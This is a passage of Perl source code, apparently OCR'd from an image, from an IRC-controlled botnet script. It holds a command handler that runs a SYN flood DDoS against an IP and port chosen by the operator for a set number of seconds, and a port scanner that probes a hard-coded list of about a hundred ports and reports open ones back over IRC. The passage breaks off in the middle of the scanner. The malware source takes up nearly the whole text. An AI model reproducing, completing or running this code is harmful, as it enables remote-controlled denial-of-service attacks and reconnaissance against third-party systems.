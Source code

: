 
           if ($funcarg =~ /^syn\s+(.*)\s+(\d+)\s+(\d+)/) { 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4|12.:3SYN DDoS12:.4|12 Attacking 4 ".$1.":".$2."12 for 4 ".$3." 12 seconds."); 

            system "cd /root"; 

            system "./syn ".$1." ".$2." ".$3." "; 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4|12.:3SYN DDoS12:.4|12 Attack Finished 4"); 

         } 

		  

  

  

###################### 

#   End of Devisings # 

#        Shit        # 

###################### 

  

  

###################### 

#      Portscan      # 

###################### 

  

         if ($funcarg =~ /^portscan (.*)/) { 

            my $hostip="$1"; 

            @portas=("15","19","98","20","21","22","23","25","37","39","42","43","49","53","63","69","79","80","101","106","107","109","110","111","113","115","117","119","135","137","139","143","174","194","389","389","427","443","444","445","464","488","512","513","514","520","540","546","548","565","609","631","636","694","749","750","767","774","783","808","902","988","993","994","995","1005","1025","1033","1066","1079","1080","1109","1433","1434","1512","2049","2105","2432","2583","3128","3306","4321","5000","5222","5223","5269","5555","6660","6661","6662","6663","6665","6666","6667","6668","6669","7000","7001","7741","8000","8018","8080","8200","10000","19150","27374","31310","33133","33733","55555"); 

            my (@aberta, %porta_banner); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3Port-Scanner12] Scanning for open ports on ".$1." 12 started ."); 

            foreach my $porta (@portas)  { 

               my $scansock = IO::Socket::INET->new(PeerAddr => $hostip, PeerPort => $porta, Proto => 
